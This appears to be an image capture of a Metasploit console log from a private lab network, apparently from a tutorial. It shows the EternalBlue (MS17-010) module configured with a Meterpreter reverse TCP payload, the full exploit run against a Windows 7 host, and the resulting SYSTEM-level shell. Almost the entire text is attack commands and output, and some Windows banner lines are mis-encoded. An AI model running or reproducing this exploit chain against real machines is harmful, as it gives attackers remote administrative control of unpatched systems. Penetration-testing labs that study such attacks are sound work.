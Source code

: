 ```
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.177.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.177.128:4444 
[+] 192.168.177.134:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7600 x64 (64-bit)
[*] 192.168.177.134:445 - Connecting to target for exploitation.
[+] 192.168.177.134:445 - Connection established for exploitation.
[+] 192.168.177.134:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.177.134:445 - CORE raw buffer dump (23 bytes)
[*] 192.168.177.134:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.177.134:445 - 0x00000010  74 65 20 37 36 30 30                             te 7600         
[+] 192.168.177.134:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.177.134:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.177.134:445 - Sending all but last fragment of exploit packet
[*] 192.168.177.134:445 - Starting non-paged pool grooming
[+] 192.168.177.134:445 - Sending SMBv2 buffers
[+] 192.168.177.134:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.177.134:445 - Sending final SMBv2 buffers.
[*] 192.168.177.134:445 - Sending last fragment of exploit packet!
[*] 192.168.177.134:445 - Receiving response from exploit packet
[+] 192.168.177.134:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.177.134:445 - Sending egg to corrupted connection.
[*] 192.168.177.134:445 - Triggering free of corrupted buffer.
[*] Sending stage (206403 bytes) to 192.168.177.134
[*] Meterpreter session 2 opened (192.168.177.128:4444 -> 192.168.177.134:52582) at 2020-04-15 23:14:27 +0800
[+] 192.168.177.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.177.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.177.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > shell
Process 3736 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7600]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>whoami
whoami
nt authority\system

```
